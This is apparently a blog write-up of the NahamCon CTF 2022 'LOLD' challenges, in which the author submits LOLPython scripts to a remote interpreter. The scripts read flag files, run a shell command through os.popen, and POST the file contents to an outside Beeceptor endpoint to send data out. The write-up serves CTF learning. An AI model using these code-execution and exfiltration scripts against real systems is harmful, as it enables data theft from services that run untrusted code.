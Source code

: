 ```yaml
---
title: NahamCon CTF 2022 - LOLD 1, 2, 3 Writeup
published: true
---
```


With the warmup over, lets move on to the LOLD scripting challenges.  There's 3 of them, with 1 being easy, 2 medium and 3 hard, and they all use an abomination of a language....

# LOLD

> HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND FLAG IS EVEN AT /flag.txt.
> 
> Attachment: lolpython.py
> 
> Connect:
> 
> nc challenge.nahamcon.com 30710

A quick google for LOLPython and.... [oh dear god what is this](http://www.dalkescientific.com/writings/diary/archive/2007/06/01/lolpython.html).  Someone took LOLCode and Python and combined them.  And now I need to learn it.

So for this challenge it looks like we need to write a script to read the flag and output the value.  Thankfully the bottom example in that link has all we need for reading a file.  So stealing that we get the following LOLPython saved as get_flag.lol:

```
F CAN HAS open WIT "flag.txt"!
S CAN HAS F OWN read THING
VISIBLE S
```

I'm so sorry, for some reason my syntax highlighter doesn't support LOLPython.  I'll file a bug.  In the meantime here's the first line in red with the python it turns in to in blue below.

![lold to python]({{ site.url }}/assets/post-images/nahamcon-lold/lold1-to-python.png)

- Line 2 calls read on F (I'll skip the bits we've already covered):
  - `OWN` is `.`
  - `THING` is `()`.  You could also use `WIT!` but I guess that doesn't make any sense in LOL speak.
- Line 3 prints the result.  `VISIBLE` is just `PRINT`.

So now we can just send that to the nc server:

```bash
cat get_flag.lol | nc challenge.nahamcon.com 30710
```

And with that we get the flag `flag{c1146bd8b0079fd75f857003afe2cc49}`


# LOLD2
> HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! AND WE HAZ MADE SUM UPGRADEZ! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND WE SAY YAY! AND FLAG IS EVEN AT /flag.txt!
> 
> Attachment: lolpython.py
> 
> Connect:
> 
> nc challenge.nahamcon.com 31263

The pain continues.  The trick with this one is that the interpreter doesn't send any output back to us, so we can't just read the flag - we need to send it somewhere.  Thankfully services such as [Beeceptor](https://beeceptor.com/) make this pretty painless.  Create an endpoint (I used blarg.free.beeceptor.com) and it'll sit there listening for requests.

As we can no longer see any errors from the remote interpreter we also need to get this nightmare running locally.  Install Python2, then download the latest [ply](http://www.dabeaz.com/ply/) and copy the `ply` folder into your code base.  Then create a flag.txt file so you can test.  It'll look something like this:

![lold2 file structure]({{ site.url }}/assets/post-images/nahamcon-lold/lold2-structure.png)

We can then use the following code to grab the flag contents and post it to our beeceptor link.

```
GIMME httplib

U CAN HAS "blarg.free.beeceptor.com:80"
H CAN HAS INVISIBLE BUCKET
H LET THE "Content-type" OK CAN HAS "text/plain"
F CAN HAS open WIT "flag.txt"!
S CAN HAS F OWN read THING
C CAN HAS httplib OWN HTTPConnection WIT U!
C OWN request WIT "POST" AND "/test" AND S AND H!
R CAN HAS C OWN getresponse THING
VISIBLE R OWN read THING
```

OK strap in, here we go (skipping the file reading we've already covered in part 1):

![lold2 explanation]({{ site.url }}/assets/post-images/nahamcon-lold/lolpython2-to-python.png)

So in short we read the file contents, then post it to `http://blarg.free.beeceptor.com:/test`.

This then gives us the flag in beeceptor:

![lold2 result]({{ site.url }}/assets/post-images/nahamcon-lold/lold2-result.png)

# LOLD3

> HAI!!!! WE HAZ THE BESTEST LOLPYTHON INTERPRETERERERER U HAS EVER SEEEEEN! AND WE HAZ MADE SUM UPGRADEZ! YOU GIVE SCRIPT, WE RUN SCRIPT!! AND WE SAY YAY! BUT URGHHHH NOW WE HAVE LOST THE FLAG!?! YOU HAZ TO FIND IT!!
> 
> Attachment: lolpython.py
> 
> Connect:
> 
> nc challenge.nahamcon.com 31263

Very similar to part 2 except we first need to find the flag.  The bash command `find / -name flag.txt -type f 2>/dev/null` can find it, so we'll write some LOLPython to run that via `os.popen` and post the results to beeceptor:

```
GIMME httplib
GIMME os

U CAN HAS "blarg.free.beeceptor.com:80"
H CAN HAS INVISIBLE BUCKET
H LET THE "Content-type" OK CAN HAS "text/plain"
O CAN HAS os OWN popen WIT "find / -name flag.txt -type f 2>/dev/null"!
S CAN HAS O OWN read THING
C CAN HAS httplib OWN HTTPConnection WIT U!
C OWN request WIT "POST" AND "/test" AND S AND H!
R CAN HAS C OWN getresponse THING
VISIBLE R OWN read THING
```

This gives us the following flag locations:

![lold3 flag locations]({{ site.url }}/assets/post-images/nahamcon-lold/lol3-flag-locations.png)

We can then use the code from part 2 with the path changed to get the final flag and end this torment:

```
GIMME httplib

U CAN HAS "blarg.free.beeceptor.com:80"
H CAN HAS INVISIBLE BUCKET
H LET THE "Content-type" OK CAN HAS "text/plain"
F CAN HAS open WIT "/opt/challenge/flag.txt"!
S CAN HAS F OWN read THING
C CAN HAS httplib OWN HTTPConnection WIT U!
C OWN request WIT "POST" AND "/test" AND S AND H!
R CAN HAS C OWN getresponse THING
VISIBLE R OWN read THING
```

![lold3 flag locations]({{ site.url }}/assets/post-images/nahamcon-lold/lold3-complete.png)

As a side note I know some people solved 2 and 3 by creating a reverse shell in LOLPython.  I'll leave that as an exercise for whoever wants it.
